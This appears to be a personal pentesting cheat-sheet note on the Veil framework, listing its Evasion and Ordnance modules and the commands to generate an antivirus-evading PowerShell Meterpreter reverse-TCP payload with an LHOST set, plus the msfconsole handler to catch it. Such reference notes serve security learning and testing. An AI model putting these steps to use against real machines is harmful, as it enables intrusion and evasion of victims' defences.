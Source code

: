 # 💢 veil framework
Tags: 
Related to: 
See also: 
Previous: [[Exploitation Tools]]

---
## Description

Veil is a tool designed to generate metasploit payloads that bypass common anti-virus solutions.

- **Evasion** - Creates payloads designed to evade antivirus tools and other antimalware products.
- **Ordnance**	- Focused on running payloads on a target machine and is especially useful if Metasploit or Microsoft Sysinternals PsExec cannot cause code to run on a target machine.

## Usage Examples

#### Get a list of available commands
	<Tab><Tab>

### Evasion

	use evasion
	list
	auxilary/coldwar_wrapper		// Takes a Windows EXE file and converts it to a Web Archive (WAR) file for execution in a Java Runtime environment.
	auxilary/pyinstaller_wrapper	// Takes a Python program and converts it to a Windows executable using the pyinstaller application.

	info powershell/meterpreter_rev_tcp.py
	use powershell/meterpreter_rev_tcp.py
	options
	set LHOST 10.10.10.100
	generate

	/var/lib/veil/output/source/560veil.bat		// The payload.
	/var/lib/veil/output/handlers/560veil.rc	// Metasploit configuration file (also known as a handler file) for a multi/handler waiting for a connection from our payload.

	msfconsole -r /var/lib/veil/output/handlers/560veil.rc		// multi/handler runs in background.

---
## References
- https://github.com/Veil-Framework/Veil